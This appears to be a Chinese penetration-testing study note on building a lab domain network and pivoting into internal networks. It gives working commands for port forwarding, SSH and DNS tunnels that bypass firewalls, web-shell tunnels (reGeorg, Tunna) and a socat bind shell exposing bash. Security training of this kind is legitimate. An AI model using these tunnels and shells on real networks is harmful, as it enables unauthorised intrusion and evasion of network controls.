# 内网网络穿透

#### 学习参考
> https://github.com/l3m0n/pentest_study


## 0x01 首先是搭建域控环境
### 知识铺垫:
> http://angerfire.blog.51cto.com/198455/144123/
> http://www.it165.net/os/html/201306/5493.html
> http://blog.sina.com.cn/s/blog_6ce0f2c901014okt.html
### 1. 先配置静态Server 2008 的静态ip: 192.168.206.100, 网关: 192.168.206.2 DNS服务器: 127.0.0.1 

### 2. 给Server 2008 分配角色: 

我这里已经安装过了



### 3. 配置域服务: 
cmd输入: dcpromo 
然后, 忘记记录了, 看参考吧.

这里有一个选项, 最好选2008那个.




最后还有一个选择的, 可以选择动态ip.
### 4. 将Server 2003 , Win XP加入域(主要两步骤, 1. 设置静态ip, 2. 更改计算机名称里面添加到域中)
截图记录, 网关同为192.168.206.2, 还有注意网络连接模式应该选用同一种方式, 比如统一使用NAT模式.




## 0x02 网络拓扑构建示例
> 利用虚拟机构建网络环境,再使用pfsense做防火墙.

### 1. 首先虚拟几块网卡. 可以如下图

-  内网网卡虚拟



- 外网网卡虚拟: 可以直接用桥接或NAT.

### 2. 将pfsense的iso文件加载, 进行虚拟机安装. 如系统安装的常规操作.

### 3. 配置网络接口.

这里设计的网络拓扑为





#### 配置说明

> 选项2进行网络接口配置, 其中em2是桥接的网卡, em0是自己配置的内网网卡.
> 然后选项3进行内网的配置, 可以配置内网接口允许分配的ip范围及是否启用dhcp服务进行分配等(不过自己配置的时候发现在这里配置完之后, 后面再进web接口进行配置怎么调规则都不能让它的规则生效, 使内网接口主机允许上网,原因不明, 不知道是不是个例. 所以建议还是在web配置接口设置吧).

### 4. rules设置

> 这时启动内网win, 网络选择自己配置的那块网卡(预设的内网接口), 如果想上图设置可以发现自己的ip会自己分配为 192.168.1.x, 此时应该是可以上网的. 这时访问https://192.168.1.1, 进入防火墙配置界面, 默认用户名: admin, 密码: pfsense, 第一次进入会有引导设置, 按自己需求设置就好.

几条重要的规则(举例). 



WAN:
阻止内网地址访问外网(但是吧, 事实上配合LAN选项下`允许LAN访问外网`,自己测试的时候,依旧可以访问外网,似乎这条规则就不起作用...)


LAN:
禁止允许内网访问外网(点击打钩那个图标状态转换)


### 6. 启动kali, 网络接口选择桥接模式即可.

### 7. 一些坑: 预设的虚拟网卡要提前虚拟好, 不然安装完防火墙再添加虚拟网卡, 再调配置各种莫名奇妙的问题... 为此,重装好几遍

## 0x03 内网转发
#### 学习参考: 
> http://payloads.online/archivers/2018-02-02/1

> 开了几台虚拟机之后, 电脑卡得不行,上面的环境机子就不开了 这里仅做一个示例的演示, 网络环境不是按照上面所做的准备.

网络结构大致如图



### 1. Windows

#### 1.1 netsh
> 实用情况: 可以访问内网主机1的某个端口, 想要转发内网主机2的端口. 内网主机1有两个网卡.
> netsh工具自带portproxy功能。目前只支持tcp协议的端口转发，前提需要作为portproxy的主机需要安装IPV6,安装可以不启用IPV6。一般xp没有安装.

```bash
netsh interface ipv6 install
```

使用

```bash
netsh interface portproxy add v4tov4 listenaddress=192.168.0.123 listenport=8080 connectaddress=192.168.1.12 connectport=3389
```

此时渗透测试机访问192.168.0.123的8080端口就相当于访问192.168.1.12的3389端口


```bash
删除转发记录
netsh interface portproxy delete v4tov4 listenaddress={监听IP} listenport={端口}

查看转发记录
netsh interface portproxy show v4tov4
```

#### 1.2 lcx/portmap
> 未知来源项目: https://github.com/yw9381/lcx
> 没找到正规版lcx...
> 较好参考链接: http://www.freebuf.com/sectool/126967.html

```text
lcx -<listen|tran|slave> <option> [-log logfile]
[option:]

 -listen <监听端口> <转发端口> 

 -tran<监听端口> <目标地址> <目标端口>

 -slave <目标主机> <目标端口> <本地主机><本机端口>
```

```bash
监听1234端口,转发数据到2333端口
本地:lcx.exe -listen 1234 2333

将目标的3389转发到本地的1234端口
远程:lcx.exe -slave 侦听主机ip 1234 127.0.0.1 3389
```

### 2. Linux

#### 2.1 ssh隧道

> 这里假设防火墙只允许53端口通过



##### 配置ssh
> 如果需要root登录, 可以按如下修改

Kali(ip为192.168.31.33)
```bash
vim /etc/ssh/sshd_config

PasswordAuthentication yes
PermitRootLogin yes
Port 22改为53

service ssh restart
```

##### 本地端口转发
> 效果类似于rinetd, 将本地端口于远程服务器建立隧道. 

内网有ssh客户端的系统(设ip为192.168.1.102)执行
```bash
ssh -fCNg -L <listen port>:<remote ip>:<remote port> user@<ssh server> -p <ssh server port>

参数说明:
-f 后台执行
-C 压缩处理
-N 不登录shell
-g 复用访问, 可以作为网关, 支持多主机访问本地侦听端口
-L Local

如:
ssh -fCNg -L 8888:192.168.31.202:3389 root@192.168.31.33 -p 53
此时访问
192.168.1.102的8888端口, 即访问192.168.31.202的3389端口

在本机直接执行
rdesktop localhost:8888
或其它机子访问它的8888端口
```

##### 远程端口转发
> 侦听端口在ssh服务器端(这里指的就是Kali)

内网中有ssh客户端的系统执行

```bash
ssh -fCN -R <listen port>:<remote ip>:<remote port> user@<SSH server> -p <ssh server port>

参数: 
-R Remote
注意: 此时是不能加-g参数, 使之成为网关的.

如:
ssh -fCN -R 8888:192.168.1.102:22 root@192.168.31.33 -p 53
此时在192.168.31.33访问
localhost:8888相当于访问192.168.1.102:22
```

在执行命令之后可以看到ssh服务器端的Kali侦听了8888端口

##### 动态端口转发
> 本地, 远程端口转发都需要固定应用服务器IP和端口, 在应用端口繁多时, 转发效率低, 且有些应用不固定端口或某些网站不支持IP直接访问, 这时, 本地端口转发和远程端口转发都无法完成任务. 使用动态端口转发可以由SSH server来决定如何转发, 且可以方便的配置客户端进行代理.

在内网ssh客户端执行

```bash
ssh -CfNg -D [bind_address:]port user@<SSH server> -p <ssh server port>

参数: 
-D Dynamic

如: 
ssh -CfNg -D 127.0.0.1:1080 root@192.168.31.33 -p 53

之后可以设置如浏览器的socks5代理为127.0.0.1:1080即可, 或可配置Proxychains
```

##### 图形化的X协议代理转发
> 允许远程登录执行GUI程序, 所有流量通过隧道绕过防火墙

```bash
ssh -X user@<SSH server> -p 
<ssh server port>

# 可以直接执行firefox等图形化工具
输入firefox即可
```

#### 2.2 iptables

```bash
1、编辑配置文件/etc/sysctl.conf的net.ipv4.ip_forward = 1
或一次性行为:
echo 1 > /proc/sys/net/ipv4/ip_forward

2、关闭服务

service iptables stop

3、配置规则

需要访问的内网地址：192.168.206.101
内网边界web服务器：192.168.206.129
iptables -t nat -A PREROUTING --dst 192.168.206.129 -p tcp --dport 3389 -j DNAT --to-destination 192.168.206.101:3389

iptables -t nat -A POSTROUTING --dst 192.168.206.101 -p tcp --dport 3389 -j SNAT --to-source 192.168.206.129

4、保存&&重启服务
service iptables save && service iptables start
```

之后访问`192.168.206.129`的3389即`192.168.206.101`的3389

#### 2.3 rinetd
> 适用于简单的端口转发, 可以同时监听多个端口

修理配置文件`/etc/rinetd.conf`

```bash
添加类似内容, 监听所有发到192.168.31.33(rinetd执行端IP)的53端口的流量, 转发到192.168.31.202的3389端口
# bindadress    bindport  connectaddress  connectport
0.0.0.0 53 192.168.31.202 3389

0.0.0.0 8080 10.10.12.1 8080
0.0.0.0 53 10.10.12.1 3389
0.0.0.0 80   10.10.12.1 80
```

使用

```bash
service rinetd restart
```




#### 2.4 lcx/portmap
> 未知来源项目: https://github.com/yw9381/lcx
> 还是好使的



#### 2.5 dns2tcp
> 适用于绕过防火墙仅允许dns的情况

##### dns2tcpd

```text
Usage : dns2tcpd [ -i IP ] [ -F ] [ -d debug_level ] [ -f config-file ] [ -p pidfile ]
	 -F : dns2tcpd will run in foreground

```

使用举例

```bash
先根据实际需要更改配置文件 /etc/dns2tcpd.conf 

dns2tcpd -k passwd -F -d 1 -f /etc/dns2tcpd.conf

– F 前台运行
– d debug level 1-3 
– f 选择配置文件
```

##### dns2tcpc

```text
Usage : dns2tcpc [options] [server] 
	-c         	: enable compression
	-z <domain>	: domain to use (mandatory)
	-d <1|2|3>	: debug_level (1, 2 or 3)
	-r <resource>	: resource to access
	-k <key>	: pre-shared key
	-f <filename>	: configuration file
	-l <port|->	: local port to bind, '-' is for stdin (mandatory if resource defined without program )
	-e <program>	: program to execute
	-t <delay>	: max DNS server's answer delay in seconds (default is 3)
	-T <TXT|KEY>	: DNS request type (default is TXT)
	server	: DNS server to use
	If no resources are specified, available resources will be printed
```

使用举例

```bash
dns2tcpc -c -k passwd -d 1 -l 2222 -r ssh -z test.lab.com (假设为服务器端的域名)

之后可以挂代理到本地2222端口, 访问服务器的ssh资源
```

或再进行隧道嵌套

```bash
ssh -CfNg root@127.0.0.1 -p 2222 -D 7001
```

#### 2.6 iodine
> 项目地址: https://github.com/yarrick/iodine
> 适用于绕过防火墙仅允许dns的情况, 相当于建立两个直连主机, 需要root权限, 会新建生产网卡及ip地址.扩展一下: 可以在此情况下建立如ssh隧道.


```text
Usage: iodine [-v] [-h] [-f] [-r] [-u user] [-t chrootdir] [-d device] [-P password] [-m maxfragsize] [-M maxlen] [-T type] [-O enc] [-L 0|1] [-I sec] [-z context] [-F pidfile] [nameserver] topdomain
```

举例

```bash
服务器端(比如它的域名就是test.lab.com)
iodined -f -c -P secretpassword 192.168.99.1 test.lab.com

客户端
iodine -f -P secretpassword t1.mydomain.com
```


#### 2.7 socat
> nc的增强版, 适用于啥时候你由顺带想执行命令传输文件等的情况. 很强势.
> 参考: http://payloads.online/tools/socat

```bash
# 端口转发举例
socat TCP4-LISTEN:8888,fork TCP4:www.qq.com:80

# 重定向
socat -d -d tcp4-listen:8900,reuseaddr,fork tcp4:10.5.5.10:3389
```

反向shell
```bash
# Server
socat tcp-l:8888 system:bash,pty,stderr
或
socat tcp-listen:8888 exec:bash,pty,stderr

# Client
socat - tcp:127.0.0.1:8888
```

### 3. 通用的
> 多平台软件支持, 或跨平台语言环境.

#### 3.1 Termite
> 多平台客户端, 服务器端
> 项目地址: http://rootkiter.com/Termite/

#### 3.2 reGeorg
> 利用web环境(代理端)加python环境(连接代理端)即可.
> 项目地址: https://github.com/sensepost/reGeorg

Example

```python
python reGeorgSocksProxy.py -p 8080 -u http://upload.sensepost.net:8080/tunnel/tunnel.jsp
```

#### 3.3 Tunna
> 利用web环境(代理端)加python环境(连接代理端)即可. 此外, 还提供web服务器软件.

Example

```python
python proxy.py -u http://10.3.3.1/conn.aspx -l 8000 -v

# 端口转发(将远程3389转发到本地1234)
python proxy.py -u http://10.3.3.1/conn.aspx -l 1234 -r 3389 -v

# 连接不能中断服务(比如ssh)
python proxy.py -u http://10.3.3.1/conn.aspx -l 1234 -r 22 -v -s

# 转发192.168.0.2的3389到本地
python proxy.py -u http://10.3.3.1/conn.aspx -l 1234 -a 192.168.0.2 -r 3389
```


### 4. 辅助工具
> 使不支持设置socks代理的软件使用代理

#### 4.1 proxychains
> Linux工具, kali自带, 需要修改配置文件 `/etc/proxychains.conf`
> 如你的socks代理端口为1080, 可以添加在下面如

```text
socks5 	127.0.0.1 1080
```

使用如`proxychains [要代理的程序]`

```bash
给curl使用代理
proxychains curl sina.com
```

#### 4.2 Proxifier

> Windows图形界面工具. 看菜单就懂用.
> 官网: https://www.proxifier.com/download/#win-tab

## 0x04 后续
> 上面的步骤就把内网打通了, 后续的就是挂上代理, 像渗透外网可直接访问主机一样. 获取Shell, 信息收集, 再针对不同的服务发起不同的攻击尝试. 再或者在内网中进行文件传输等等. 这个有空再进一步写了.
